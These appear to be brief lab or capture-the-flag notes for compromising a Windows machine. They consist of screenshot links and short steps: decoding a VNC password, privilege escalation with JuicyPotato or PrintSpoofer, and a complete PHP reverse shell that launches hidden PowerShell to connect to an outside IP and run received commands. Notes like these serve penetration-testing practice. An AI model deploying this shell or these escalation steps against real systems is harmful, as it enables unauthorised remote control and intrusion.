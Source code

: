 ![image](https://github.com/user-attachments/assets/aaef55ca-1701-4134-84f0-ae7e2c5694d7)
![image](https://github.com/user-attachments/assets/bacf8f6f-f715-40be-92a2-f17d29b7138f)
![image](https://github.com/user-attachments/assets/b7fe6734-b595-41ef-bec5-01d1cb6f6f0a)
![image](https://github.com/user-attachments/assets/785541b9-3d93-4926-b9e0-01614974c2d1)
![image](https://github.com/user-attachments/assets/e9f4f2ad-11b1-4255-8fb5-54eaeadcbf11)
![image](https://github.com/user-attachments/assets/84239f12-d0f1-4d80-a8a4-cb59e9c6e070)
![image](https://github.com/user-attachments/assets/31b934e2-373d-4f05-89f7-41cb5dae6dbb)
![image](https://github.com/user-attachments/assets/47d1cb0c-8333-4c5a-9fe7-468873f4ab23)
![image](https://github.com/user-attachments/assets/02cfbfbd-9180-46c1-b2b0-4e41d34f82eb)
![image](https://github.com/user-attachments/assets/8bc7d2d3-9dd9-49f6-9c86-0484378ec013)
![image](https://github.com/user-attachments/assets/e7854b98-2cbe-486b-8702-d1e9e324f2ba)

Look around, cannot find entry point. Take a break.

Continue. Redeploy machine. Different IP. Check if share is writable.

![image](https://github.com/user-attachments/assets/e8c6cc76-5c96-4fc6-8f52-4637c10d16f5)
![image](https://github.com/user-attachments/assets/951a4363-5f7b-4d40-bc5f-ef3f1d9d4759)
![image](https://github.com/user-attachments/assets/42d93ccc-cfa9-4203-b68a-5f8914c4619e)
![image](https://github.com/user-attachments/assets/93cbc5c3-d6f0-4f45-8005-c17834f59896)
![image](https://github.com/user-attachments/assets/0ee08ecc-9a04-4c22-b8c7-17c436a54aac)
![image](https://github.com/user-attachments/assets/01cccb43-348c-4275-b995-ef1506f60c62)
![image](https://github.com/user-attachments/assets/c2c8bf3a-a8c5-4ada-9853-a8193400cdf3)
![image](https://github.com/user-attachments/assets/d31c38c4-ffd2-401a-8f23-616a03e174c9)
![image](https://github.com/user-attachments/assets/d995aaab-3b9f-4586-842a-0a30e1031329)

Unable to VNC into machine with the decoded password.

Machine is x64-based PC. SeImpersonatePrivilege Enabled. User JuicyPotato.exe or PrintSpoofer64.exe for PrivEsc.

Decody VNC password hash: upload vncpwd.exe to machine and run against ultravnc.ini Or on Kali run wine vncpwd.exe <Password-hash>


Windows PHP reverse shell (stable)
```bash
<?php
$cmd = "powershell -NoP -NonI -W Hidden -Exec Bypass -Command ";
$cmd .= "\"\$client = New-Object System.Net.Sockets.TCPClient('10.4.95.140',5900);";
$cmd .= "\$stream = \$client.GetStream();";
$cmd .= "[byte[]]\$bytes = 0..65535|%{0};";
$cmd .= "while((\$i = \$stream.Read(\$bytes, 0, \$bytes.Length)) -ne 0){";
$cmd .= "\$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString(\$bytes,0, \$i);";
$cmd .= "\$sendback = (iex \$data 2>&1 | Out-String );";
$cmd .= "\$sendback2 = \$sendback + 'PS ' + (pwd).Path + '> ';";
$cmd .= "\$sendbyte = ([text.encoding]::ASCII).GetBytes(\$sendback2);";
$cmd .= "\$stream.Write(\$sendbyte,0,\$sendbyte.Length);";
$cmd .= "\$stream.Flush() }\";";
exec($cmd);
?>
```
